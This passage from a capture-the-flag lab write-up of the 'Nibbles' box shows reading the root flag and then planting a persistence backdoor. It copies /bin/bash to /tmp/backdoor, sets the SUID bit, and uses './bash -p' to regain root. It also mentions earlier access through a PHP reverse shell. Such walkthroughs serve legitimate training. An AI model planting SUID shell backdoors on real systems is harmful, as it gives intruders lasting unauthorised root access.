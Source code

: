 
I should be able to read the root flag:

```bash
root@Nibbles:/home/nibbler/personal/stuff# cd /root
root@Nibbles:~# ls
root.txt
root@Nibbles:~# cat root.txt 
4e**************************3145
```

# Persistency

---

To get a persistent way to get root on the box, I could generate a new SSH key for root. But I will just copy `/bin/bash` to another place and add a SUID bit:

```bash
root@Nibbles:~# mkdir /tmp/backdoor
root@Nibbles:~# cp /bin/bash /tmp/backdoor
root@Nibbles:~# cd /tmp/backdoor/
root@Nibbles:/tmp/backdoor# ls -l
total 1016
-rwxr-xr-x 1 root root 1037528 Aug 19 03:13 bash
root@Nibbles:/tmp/backdoor# chmod +s bash
root@Nibbles:/tmp/backdoor# ls -l
total 1016
-rwsr-sr-x 1 root root 1037528 Aug 19 03:13 bash
```

The initial access is done with the php reverse shell, after that you just have to execute the copied bash in tmp:

```bash
nibbler@Nibbles:/tmp/backdoor$ whoami
nibbler
nibbler@Nibbles:/tmp/backdoor$ ls
bash
nibbler@Nibbles:/tmp/backdoor$ ./bash -p
bash-4.3# whoami
root
```